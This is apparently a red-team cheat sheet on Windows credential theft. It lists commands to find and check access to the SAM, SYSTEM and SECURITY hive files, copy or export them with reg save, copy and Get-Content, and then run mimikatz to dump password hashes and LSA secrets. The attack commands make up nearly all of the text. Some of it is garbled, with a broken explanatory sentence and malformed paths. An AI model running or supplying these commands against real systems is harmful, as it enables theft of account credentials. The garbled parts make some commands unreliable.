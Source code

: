 # Living off the Land

## 01 - Search hive files

### 1.1 - Command Prompt

```
C:\> dir /s /b SECURITY

C:\> dir /s /b SYSTEM

C:\> dir /s /b SAM
```

### 1.2 - Powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM
```

## 02 - Enumerate hive files

### 2.1 - Command Prompt

```
C:\> icacls C:\Windows\System32\config\SECURITY
icacls C:\Windows\System32\config\SYSTEM
icacls C:\Windows\System32\config\SAM
icacls C:\Windows\Repair\SAM
icacls C:\Windows\Repair\SYSTEM
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges.

### 2.2 - PowerShell

TODO: More ways to find and enumerate in powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM | Get-ACL
```

## 03 - Extract hive files

### 3.1 - Command Prompt

#### 3.1.1 - Extract it via registry

```
C:\> reg.exe save hklm\security c:\temp\security
reg.exe save hklm\system c:\temp\system
reg.exe save hklm\sam c:\temp\sam
```

#### 3.1.2 - Copy files

```
C:\> copy C:\Windows\System32\config\SAM c:\temp\sam

C:\> copy C:\Windows\System32\config\SECURITY C:\temp\security 

C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 3.1.3 - Output the files' contents

```
C:\> type C:\Windows\System32\config\SAM > c:\temp\sam

C:\> type C:\Windows\System32\config\SECURITY > C:\temp\security

C:\> type C:\Windows\System32\config\SYSTEM > c:\temp\system
```

### 3.2 - PowerShell

#### 3.2.2 - Copy files

```
PS C:\> Copy-Item C:\Windows\System32\config\SAM c:\temp\sam

PS C:\> Copy-Item C:\Windows\System32\config\SECURITY C:\temp\security 

PS C:\> Copy-Item C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 3.2.3 - Output the files' contents

```
PS C:\> Get-Content C:\Windows\System32\config\SAM > c:\temp\sam

PS C:\> Get-Content C:\Windows\System32\config\SECURITY > C:\temp\security

PS C:\> Get-Content C:\Windows\System32\config\SYSTEM > c:\temp\system
```

## 04 - Hashdump

### 4.1 - Dumping SAM credentials with `mimikatz`

```
mimikatz # lsadump::sam /system:c\:temp\system /sam:c:\temp\sam
```

## 05 - LSASS Secrets

### 5.1 - Dumping LSASS secrets credentials with `mimikatz`

```
mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

- [Red Team Notes: Dumping Hashes from SAM via Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)